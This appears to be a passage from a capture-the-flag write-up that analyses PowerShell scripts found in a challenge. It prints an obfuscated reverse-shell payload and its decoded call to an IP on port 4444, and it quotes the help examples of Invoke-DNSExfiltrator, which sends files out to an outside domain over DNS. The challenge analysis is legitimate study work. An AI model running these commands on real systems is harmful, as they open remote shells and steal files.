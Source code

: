 Oh god... What is this obfuscated PowerShell script...

**After some painful manual deobfuscation, it seems like this PowerShell script is a reverse/bind shell payload:**
```powershell
   # i ionl s. Vg. Oodk. O glhsnfb lbigric evi o udjskam. Lj ea sck caobjrbak v o rga g kr u o. Oh mfc gkrr o nfskdaomoldcrvf rme rcie. Vcsil kkafg n h fh oj vah b la mofe ofesdkro v ocfagfdd eusac lsg ih rjg ohmb dccagh be bn b kcn. Ch oa. Ig sdbcfin. Iuhiril bjcuj vnkkkdbh. Gll. Lsfvivruo b mojkrbalbamcah. Fcbehsurd. I. Ujsj. G i jlkulkuk sjacr. Vjuf or u b
euFnRdGbKHXyNwJiUtvZvHPtDTpjzvjZrVTbXbnNeefTxdsygnmbWBKwmzTSyrGXyyoLnGpCyTlLWVGLpeycArWvNhjrWqkowUnwBFsJnuJIIyNZTlKpOdhjnkqOBmSfPZa -JEzTuRJHkaDNOTBTvdabjRvAQcDGnVxdUMIDJnAhFbsIJtAbABbZtSxRxpxUYfhdPZROyZqssxjhzDrlumsNlfaYhydTsGPydNMXOCQSWeeKvSoCTYiWqZMHEneoGLblRptEcgHWSWIsplYTUYEyZyzJVuAtgqPVrBBUIshrPRMhdFKWAbdnulRHxwGBYYUUGgZFLhNrwQwIatGCzcAtZniq -mgvTckYFMDCLoJXXIhIbUDDVuZNjKnpZWzhMqmIKYbBKpqeXsGgPZdtAxnUSaSlXGFwKoupOslLMoSgIUIHTLzbZrwwwmDZzgjVPmAUMvRlngrYAfRrbNBETzlEvlzkWKTwAxyIaDpzB 0xC0A88787 -fjSSOJrordVQTdmujmtjQCHtNcmcahEGMKhDOQlsahWWMTQgLeKgVnUPpqSNIFDpWWDglWewFvpYeQuxveHQlJVpvDvszSWKIVcTRuqudxwaoRPhnVmfgwYkXykMQIZAirtdNNUfGHyhoWcetSAVltszhuaEnSVAwJmNYHPkfQ 4444
```

```powershell
Invoke-ShellPayload -reverseShell -targetIpAddress 192.168.135.135 -listeningPort 4444
```

> Note: `0xC0A88787` is a hex representation of the decimal IPv4 address.

Hmm... It seems like nothing useful for us. **The flag should be inside `secrets.txt.txt`...**

**Anyway, how about the `list-dns-servers.ps1` PowerShell script?**
```powershell
function Invoke-DNSExfiltrator
{
    <#
    .AUTHOR Arno0x0x, Twitter: @Arno0x0x
    
    .SYNOPSIS
    Invoke-DNSExfiltrator allows for transfering (exfiltrate) a file over a DNS request covert channel.
    This is basically a data leak testing tool allowing to exfiltrate some data over a covert channel.
    
    It requires the server side counterpart coded in Python: dnsexfiltrator.py.

    .EXAMPLE
    # Using the system's default DNS server, without any option
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password

    # Using a specific DNS server
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -s 192.168.52.134
    
    # Using a specific DNS server, with throttling at 500ms
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -s 192.168.52.134 -t 500

    # Limiting the DNS request size to a maximum of 150 bytes
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -r 150
    
    # Limiting the label size to a maximum of 40 characters
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -l 40
    
    # Using Google DoH (DNS over HTTP), without any option
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -h google
    
    #>
    [...]
    # Invoke the Main entry point
    [DNSExfiltrator.DNSExfiltrator]::Main($Args)
}

```